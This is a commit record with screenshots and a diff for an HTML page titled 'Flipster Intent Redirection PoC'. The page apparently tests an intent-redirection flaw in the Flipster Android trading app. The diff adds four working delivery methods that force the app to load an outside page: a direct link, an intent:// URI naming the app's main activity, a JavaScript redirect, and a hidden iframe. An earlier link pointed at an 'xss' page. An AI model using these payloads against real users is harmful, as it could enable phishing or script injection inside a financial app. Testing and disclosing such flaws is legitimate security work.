

Before and after one commit to xaleraf4ra/test-poc.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Enhance index.html with Flipster app opening methods
Added multiple methods for opening the Flipster app, including direct link, intent scheme, JS redirect, and iframe trick.

```diff
--- a/index.html
+++ b/index.html
@@ -1,13 +1,42 @@
 <!DOCTYPE html>
 <html>
-<head>
-    <title>Flipster PoC</title>
-</head>
+<head><title>Flipster PoC</title></head>
 <body>
+    <h2>Flipster Intent Redirection PoC</h2>
+
+    <!-- Вариант 1: прямая ссылка -->
+    <a href="https://flipster.xyz/https://xaleraf4ra.github.io/test-poc.github.io/">
+        Open via direct link
+    </a>
 
     <br><br>
-    <a href="intent://flipster.xyz/https://xaleraf4ra.github.io/flipsterxss/#Intent;scheme=https;package=com.prestolabs.android.prex;end">
-        Open in Flipster (intent scheme)
+
+    <!-- Вариант 2: intent:// scheme с component -->
+    <a href="intent://flipster.xyz/https://xaleraf4ra.github.io/test-poc.github.io/#Intent;scheme=https;package=com.prestolabs.android.prex;component=com.prestolabs.android.prex/.presentations.ui.MainActivity;action=android.intent.action.VIEW;end">
+        Open via Intent scheme
     </a>
+
+    <br><br>
+
+    <!-- Вариант 3: JS redirect -->
+    <button onclick="openApp()">Open via JS redirect</button>
+
+    <br><br>
+
+    <!-- Вариант 4: iframe trick -->
+    <button onclick="openViaIframe()">Open via iframe</button>
+
+    <script>
+    function openApp() {
+        window.location = "intent://flipster.xyz/https://xaleraf4ra.github.io/test-poc.github.io/#Intent;scheme=https;package=com.prestolabs.android.prex;component=com.prestolabs.android.prex/.presentations.ui.MainActivity;action=android.intent.action.VIEW;end";
+    }
+
+    function openViaIframe() {
+        var iframe = document.createElement("iframe");
+        iframe.style.display = "none";
+        iframe.src = "intent://flipster.xyz/https://xaleraf4ra.github.io/test-poc.github.io/#Intent;scheme=https;package=com.prestolabs.android.prex;component=com.prestolabs.android.prex/.presentations.ui.MainActivity;action=android.intent.action.VIEW;end";
+        document.body.appendChild(iframe);
+    }
+    </script>
 </body>
 </html>
```
